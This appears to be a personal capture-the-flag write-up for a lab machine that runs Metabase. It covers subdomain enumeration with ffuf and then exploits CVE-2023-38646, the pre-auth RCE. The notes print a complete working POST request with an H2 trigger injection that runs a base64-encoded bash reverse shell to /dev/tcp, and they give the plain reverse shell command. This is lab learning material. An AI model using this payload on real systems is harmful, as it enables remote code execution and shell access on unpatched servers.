 ![[Untitled 104 2.png|Untitled 104 2.png]]

This login page need a valid email, and the contact email of the domain can be found in the main page **due@analytical.com**

LEARN HOW TO USE GOBUSTER FOR SUBDOMINS IS NOT WORKING

Using ffuf I started enumerating subdomains, I know that there is one already for the Login Page

The only subdomain found was data

Since I cant find anything Ill try with metabase

So theres a PreAuth RCE vulnerabilty for metabase

> [!info] Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)  
> Subscribe to our newsletter and stay updated on the newest research, security advisories, and more!  
> [https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646)  

> [!info]  
>  
> [https://github.com/m3m0o/metabase-pre-auth-rce-poc/blob/main/main.py](https://github.com/m3m0o/metabase-pre-auth-rce-poc/blob/main/main.py)  

TL;DR

![[Untitled 105 2.png|Untitled 105 2.png]]

Using this POST request, where the token is found on /api/session/properties and the base64 encoded is `bash -i >&/dev/tcp/IP/PORT 0>&1`

```Bash
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
